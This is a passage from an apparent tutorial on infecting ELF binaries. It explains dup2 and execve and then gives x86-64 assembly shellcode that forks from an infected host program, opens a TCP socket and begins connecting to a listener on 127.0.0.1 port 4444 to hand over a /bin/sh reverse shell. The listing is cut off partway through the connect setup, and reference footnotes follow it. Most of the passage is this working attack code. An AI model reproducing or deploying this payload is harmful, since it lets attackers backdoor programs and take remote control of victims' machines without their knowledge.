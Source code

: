 This useful insight brought to you by netizen ***"Gilles 'SO- stop being evil'" of StackOverflow***


`Dup2` lets us duplicate the file descriptor to handle `stdin`, `stdout`, and `stderr` pipes. After we decrement through the `dup2_loop`, we can use them with a shell.

So we build the `/bin/sh` pathname array and move it to `rbx`, followed by the *path* to the *argument* of the *pathname*!

Our final code looks like this, with `execve("/bin/sh", ["/bin/sh"], NULL)`. If all goes well, we receive a shell on our listener and the original behavior of our infected host program is preserved.


```nasm
BITS 64
global _start

section .text
_start:
                                ; save original stack pointer 
    mov r12, rsp                ; preserve rsp in r12

                                ; save all registers
    push rax
    push rbx
    push rcx
    push rdx
    push rsi
    push rdi
    push rbp
    push r8
    push r9
    push r10
    push r11

                                ; fork to isolate shellcode execution
    mov rax, 57                 ; sys_fork
    syscall
    test rax, rax
    jnz parent                  ; parent continues host execution

child_process:
                                ; socket syscall
                                ; int socket(int domain, int type, int protocol)
    mov rax, 41                 ; sys_socket
    mov rdi, 2                  ; AF_INET
    mov rsi, 1                  ; SOCK_STREAM
    mov rdx, 6                  ; IPPROTO_TCP
    syscall
    cmp rax, 0
    jl exit                     ; if socket fails, exit

                                ; save socket file descriptor in rdi
    mov rdi, rax

                                ; connect syscall
                                ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
    mov rax, 42                 ; sys_connect
                                ; build sockaddr_in structure on the stack
    xor rdx, rdx
    push rdx                    ; null pad
    push dword 0x0100007f       ; 127.0.0.1, ip address
    push word 0x5c11            ; port 4444, network byte order
    push word 2                 ; AF_INET
    mov rsi, rsp                ; pointer to sockaddr_in structure
```

[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up
